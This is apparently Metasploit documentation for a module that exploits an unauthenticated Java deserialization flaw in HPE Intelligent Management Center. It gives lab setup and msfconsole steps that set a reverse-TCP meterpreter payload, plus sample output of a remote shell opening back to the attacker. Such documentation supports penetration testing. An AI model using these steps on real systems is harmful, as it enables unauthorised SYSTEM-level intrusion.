 ## Vulnerable Application

  The module exploits a RCE bug on vulnerable installations of Hewlett Packard Enterprise Intelligent Management Center. Authentication is not required.

  The specific flaw exists within the `WebDMDebugServlet`, which listens on TCP ports `8080` and `8443` by default. The issue results from the lack of proper validation of user-supplied data, which can result in deserialization of untrusted data. An attacker can leverage this vulnerability to execute arbitrary code in the context of SYSTEM.

  On a Windows machine, download and install a trial version of HPE IMC from here:

  [https://h10145.www1.hpe.com/downloads/DownloadSoftware.aspx?SoftwareReleaseUId=19066&ProductNumber=JG748AAE&lang=&cc=&prodSeriesId=&SaidNumber=](https://h10145.www1.hpe.com/downloads/DownloadSoftware.aspx?SoftwareReleaseUId=19066&ProductNumber=JG748AAE&lang=&cc=&prodSeriesId=&SaidNumber=)

  You need .Net 2.0, but that's the only dependency.

  Make sure to follow any instructions on setting up SSL correctly (certain cipher suites does not play well with the software). These instructions may vary depending on the win version you set it up on. On a Windows Server 2012 R2 I had to disable certain cipher suites. The exploit has been tested on Windows Server 2012 R2 and Windows Server 2008 R2.

## Verification Steps

  A successful check of the exploit will look like this:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/hp_imc_java_deserialize```
  4. Do: ```set RHOSTS <RHOSTS>```
  5. Do: ```set PAYLOAD windows/meterpreter/reverse_tcp```
  6. Do: ```set LHOST <LHOST>```
  7. Do: ```check```
  8. **Verify** that you are seeing `The target is vulnerable.` in console.
  9. Do: ```exploit```
  10. You should get a meterpreter shell.

## Options

  **TARGETURI**

  Path to the IMC application, the default location is `/imc`.

  **SSL**

  As set up by default, IMC is vulnerable both over port `8080` and `8443` (SSL). Set this parameter to `true` and change `RPORT` if you'd like to exploit over SSL.

  **RPORT**

  Set this to the appropriate port, `8080` (default) or `8443`.

## Scenarios

All versions below 7.3 E0504P2 should be vulnerable remotely.

### HPE IMC 7.3 E0504P2

  Here's showing the expected output:

  ```
  msf > exploit

  [*] Started reverse TCP handler on 10.0.0.1:4444 
  [*] Sending serialized Java object (11290 bytes)...
  [*] Sending stage (179779 bytes) to 10.0.0.2
  [*] Meterpreter session 2 opened (10.0.0.1:4444 -> 10.0.0.2:49284) at 2018-11-17 09:43:07 +0100

  meterpreter > sysinfo 
  Computer        : SERVER_NAME
  OS              : Windows 2008 R2 (Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 1
  Meterpreter     : x86/windows
  meterpreter > 
  ```
